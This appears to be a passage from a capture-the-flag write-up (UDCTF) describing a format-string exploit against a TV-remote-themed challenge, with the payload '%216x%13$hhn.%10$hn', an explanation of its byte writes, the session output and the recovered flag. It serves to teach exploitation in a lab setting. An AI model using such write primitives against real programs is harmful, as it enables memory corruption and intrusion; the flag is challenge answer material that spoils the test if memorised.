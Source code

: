 ![image](https://gist.github.com/user-attachments/assets/1faf49e4-4363-49a5-b32e-905a1b8c7e3e)


![image](https://gist.github.com/user-attachments/assets/2f932e0a-dc5f-4fb4-8c3b-e91524dcf735)


For some reason the remote wasnt accepting my payload so i tried writting to different areas untill i ended up with 

```c
%216x%13$hhn.%10$hn

%216x%13$hhn --> write 0xd8 to the the address at 13
.%10$hn  ---> including the dot = 217 so writes 0xd9 to the value pointed to by the above  address
```
{: .nolineno }



```c
Channel 1: Format Fiasco
Channel 2: Echo Chamber
Channel 3: Buffering Chaos
Channel 4: The Stack is Back
Channel 5: RAX the World
Channel 6: Get the Flag

Which mode? Programming (p) or Channel Switching (c)? p/c
>  p
You enter programming mode, and hear the remote say: Please say what option you want to select: Account Options, Channel Info, Security, or More Options.
>  %216x%13$hhn.%10$hn
You say:
                                                      3f92e010.
... you hear the remote say

Sorry, I did not get that. Please try again later.
Which mode? Programming (p) or Channel Switching (c)? p/c
>  c
Change the channel? (y/n)
>  y
Switch to what channel?
>  6
It's prompting for a pin... you forgot the pin.. but you still try anyway.

Enter in the pin: 217
It worked?!? You must've said open-sesame before you entered the pin in
UDCTF{th3y_h4ve_n0_ch4nnels}
```
{: .nolineno }


`UDCTF{th3y_h4ve_n0_ch4nnels}`


### Pure Write-What-Where
